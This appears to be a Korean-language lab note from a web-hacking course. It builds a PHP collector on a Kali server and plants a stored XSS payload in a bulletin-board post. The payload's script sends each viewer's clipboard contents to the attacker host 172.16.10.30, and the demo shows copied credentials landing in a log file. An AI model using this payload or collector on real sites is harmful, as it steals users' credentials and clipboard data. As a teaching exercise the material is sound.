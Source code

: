 root@kali-04:/var/www/html# cat > cookie.dat

Ctrl + D

root@kali-04:/var/www/html# cat cookie.dat

root@kali-04:/var/www/html# cp getcookie.php getclip.php
root@kali-04:/var/www/html# vim getclip.php

```
<?php
		$clip = $_GET['clip'];
		$save_file = fopen("clip.dat", "a");
		fwrite($save_file, $_SERVER['REMOTE_ADDR']." : ");
		fwrite($save_file, $clip."\n");
		fclose($save_file);
?>
		
```

root@kali-04:/var/www/html# touch clip.dat
root@kali-04:/var/www/html# chmod o+w clip.dat
root@kali-04:/var/www/html# ls -l

```
total 32
-rw-r--rw- 1 root root     0 Oct 20 10:11 clip.dat // w권한 추가
-rw-r--rw- 1 root root     0 Oct 20 10:06 cookie.dat  
-rw-r--r-- 1 root root   176 Oct 20 10:11 getclip.php
-rw-r--r-- 1 root root   184 Oct 20 10:06 getcookie.php
-rw-r--r-- 1 root root    14 Sep 29 16:06 index.html
-rw-r--r-- 1 root root 10701 Sep 14 15:06 index.html.back
-rw-r--r-- 1 root root    14 Sep 29 15:17 index.html.bak
-rw-r--r-- 1 root root   612 Sep 14 15:02 index.nginx-debian.html
```



게시글에 넣은 이미지 태그

```
<img name="a" width="0" height="0"></img>
<script>a.src="http://172.16.10.30/getclip.php?clip="+clipboardData.getData("text")</script>
감사합니다.
```



아까 칼리에서 체크 풀면 해커로 돌아가짐 그럼 해커인 상태로 게시판에 글쓰기

내용은 저 위에 태그내용 그대로

메모장에

```
ID : admin
PW : P@ssw0rd 쓰고 복사 하고 다시 글 눌러보면
cat clip.dat 치면 내가 복붙했던 내용 나옴
```
